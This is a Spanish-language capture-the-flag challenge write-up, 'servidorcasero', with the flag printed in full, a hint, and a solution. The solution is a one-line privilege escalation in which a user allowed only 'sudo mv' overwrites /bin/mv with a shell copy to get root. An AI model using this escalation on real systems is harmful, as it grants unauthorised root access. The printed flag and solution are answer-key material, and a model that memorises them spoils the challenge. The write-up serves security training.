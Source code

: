 # Nombre: `servidorcasero`
### Dificultad: `fácil`
### Categoría: `misc`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{sud03rs_3s_p3l1gr0s0!}`

### Descripción:
Camilo me pidió que le montara un servidor linux en un computador viejo para poder guardar películas. No es muy computín, así que le dejé todo listo y le enseñé un solo comando que necesita para mover las películas cuando las descarga: `sudo mv`. Dudo que alguien pueda escalar a root con eso. `nc challs.dcctf.xyz 5003`

La flag está en /root/flag.txt y solo es legible por root.

# Hint 1:
sudoers

# Solución:
El user camilo tiene sudo perms para /bin/mv. Hay muchas soluciones posibles. Un ejemplo: `cd tmp; cp /bin/sh .; sudo /bin/mv sh /bin/mv; sudo /bin/mv;` para escalar a root, y luego se puede leer la flag.
